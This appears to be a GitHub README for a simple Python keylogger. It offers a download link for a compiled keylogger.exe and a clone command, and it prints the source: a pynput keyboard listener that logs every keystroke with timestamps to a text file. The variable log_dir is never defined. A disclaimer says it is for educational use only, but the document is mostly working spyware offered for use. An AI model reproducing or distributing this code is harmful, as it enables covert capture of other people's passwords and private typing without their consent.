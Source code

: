 ### keylogger
A simple keylogger made with python.It stores the letters in the text file.
### Disclaimer
Don't use this for bad purposes.Don't hack anyone this is just for educational purposes.
### Download the exe 
[Download](https://github.com/shourgamer2/keylogger/releases/download/version1.0.0/keylogger.exe) <br>
It saves the letters in text file.
### Fork this repo
```sh
git clone https://github.com/shourgamer2/keylogger
```
### Modify the code 
You need python installed in your system to modify the code
Import the needed things 
``` python
from pynput.keyboard import Key, Listener
import logging
```
Logging 
``` python 
logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')
```
Making the logger 
``` python
def on_press(key):
    logging.info(str(key))
    
with Listener(on_press=on_press) as listener:
    listener.join() 
   ```
### How does it work 
   It logs all the things you type in your keyboard and stores it in a text file
   
